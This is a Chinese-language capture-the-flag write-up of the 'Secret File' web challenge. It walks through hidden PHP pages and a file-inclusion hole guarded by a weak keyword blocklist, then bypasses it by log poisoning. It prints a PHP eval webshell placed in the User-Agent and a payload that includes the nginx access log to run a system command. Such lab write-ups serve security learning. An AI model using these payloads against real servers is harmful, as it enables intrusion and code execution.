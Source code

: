 ```yaml
---
title: 极客大挑战 2019  Secret File
date: 2024-09-14 15:25:34
permalink: /pages/276200/
sidebar: false
categories:
  - n日一题
author: 
  name: the0n3
  link: https://the0n3.top
---
```



##  [极客大挑战 2019]Secret File

打开f12调试工具，看到页面源码存在文件`Archive_room.php`文件，访问

![arch](/medias/daily/secret/arch.png)

在`Archive_room.php`里的按钮点击后，跳转到了end.php。在调试工具网络里可以看到，这个过程请求了`action.php`，但是又跳到`end.php`了

![action](/medias/daily/secret/action.png)

一时手足无措了。看了大佬思路，发现可以bp抓包看这个过程的action.php，又学到了

![secr3t](/medias/daily/secret/secr3t.png)

抓包可以看到`action.php`页面有提示文件`secr3t.php`文件

访问secr3t.php，页面源码

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
```

一个简单的文件包含，但是过滤了`../`、`tp`、`input`、`data`，。还可以包含日志，那就试试。注意日志包含写木马不能有错误，有错误日志就不能用了，只能重新开容器

UA(user-agent)：`<?php highlight_file(__FILE__);eval($_GET[1]);?>`

payload：`?file=/var/log/nginx/access.log&1=system('tac flag.php');`

![flag](/medias/daily/secret/flag.png)